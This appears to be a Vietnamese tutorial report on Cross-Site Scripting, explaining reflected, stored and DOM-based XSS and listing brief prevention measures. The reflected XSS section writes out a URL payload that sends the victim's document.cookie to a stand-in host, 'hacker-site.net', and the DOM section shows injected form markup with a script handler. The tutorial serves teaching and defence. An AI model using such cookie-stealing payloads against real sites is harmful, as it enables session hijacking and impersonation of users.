








## Người thực hiện: Trần Ngọc Nam
## Ngày thực hiện: 15/5/2022

# Mục lục:
1. [XSS là gì?](#1)
2. [XSS có thể dùng làm gì?](#2)
3. [Tấn công XSS thực hiện như thế nào?](#3)
4. [Các loại tấn công XSS](#4)
   1. [Reflected XSS](#5)
   2. [Stored XSS](#6)
   3. [DOM Based XSS](#7)
5. [Các cách để ngăn chặn XSS](#8)

## XSS là gì?<a name="1"></a>
- Cross Site Scripting (XSS) là một đoạn mã độc, để khai thác một lỗ hổng XSS, hacker sẽ chèn mã độc thông qua các đoạn script để thực thi chúng ở phía Client.
- Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.
- Tấn công XSS đang được thực hiện ở phía client. Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau. Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.
  
## XSS có thể dùng làm gì?<a name="2"></a>
- Mạo danh hoặc giả dạng người dùng nạn nhân.
- Thực hiện bất kỳ hành động nào mà người dùng có thể thực hiện.
- Đọc bất kỳ dữ liệu nào mà người dùng có thể truy cập.
- Nắm bắt thông tin đăng nhập của người dùng.
- Thực hiện thay đổi bề mặt ảo của trang web.
- Chèn chức năng trojan vào trang web.

## Tấn công XSS thực hiện như thế nào?<a name="3"></a>
- Cross Site Scripting có thể xảy ra trên tập lệnh độc hại được thực hiện ở phía client.
- Trang web hoặc form giả mạo được hiển thị cho người dùng (nơi nạn nhân nhập thông tin đăng nhập hoặc nhấp vào liên kết độc hại).
- Trên các trang web có quảng cáo được hiển thị.
- Email độc hại được gửi đến nạn nhân. Tấn công xảy ra khi tin tặc tìm kiếm những lỗ hổng trên website và gửi nó làm đầu vào độc hại. Tập lệnh độc hại được tiêm vào mã lệnh và sau đó được gửi dưới dạng đầu ra cho người dùng cuối cùng.

## Các loại tấn công XSS:<a name="4"></a>

### Reflected XSS:<a name="5"></a>
- Có nhiều hướng để khai thác thông qua lỗi Reflected XSS, một trong những cách được biết đến nhiều nhất là chiếm phiên làm việc (session) của người dùng, từ đó có thể truy cập được dữ liệu và chiếm được quyền của họ trên website.
  
  

  - Bước 1: Người dùng đăng nhập web và giả sử được gán session <code>Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4</code>.
  - Bước 2: Hacker gửi cho người dùng URL: <code>http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2Bdocument.cookie;</code>. Trong đó, <code>example.com</code> là website nạn nhân truy cập và <code>hacker-site.net</code> là trang của hacker tạo ra.
  - Bước 3: Nạn nhân truy cập đến URL trên.
  - Bước 4: Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker).
  - Bước 5: Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript.
  - Bước 6: Sau khi đoạn script được thực hiện, session của người dùng sẽ được gửi đến hacker.
  - Bước 7: Với session có được, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
  
### Stored XSS:<a name="6"></a>
- Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn.
- Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu.
- Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước:
  - Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
  
    

  - Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.
    
    

- Đây là hình ảnh tổng hợp các bước tấn công Stored XSS.
  
  

### DOM Based XSS:<a name="6"></a>
- DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML.
  
  

- Ví dụ:
  - Một website có URL đến trang đăng ký <code>http://example.com/register.php?message=Please fill in the form</code>
  - Khi truy cập đến thì chúng ta thấy một Form rất bình thường
    
    

  - Thay vì truyền <code>message=Please fill in the form</code> thì truyền
    ```php
    message=<label>Gender</label>
    <select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select>
    <script>function show(){alert();}</script>
    ```
  - Khi đấy form đăng ký sẽ thay đổi.
    
    
    
  - Người dùng sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi.
    
    

## Các cách để ngăn chặn XSS:<a name="7"></a>
- Các phương pháp phòng ngừa chính được sử dụng:
  - Xác thực đầu vào.
  - Lọc đầu vào của người dùng: tìm kiếm các từ khóa nguy hiểm trong mục nhập của người dùng và xóa chúng hoặc thay thế chúng.
  - Mã hóa dữ liệu trên đầu ra.
  - Sử dụng tiêu đề phản hồi thích hợp.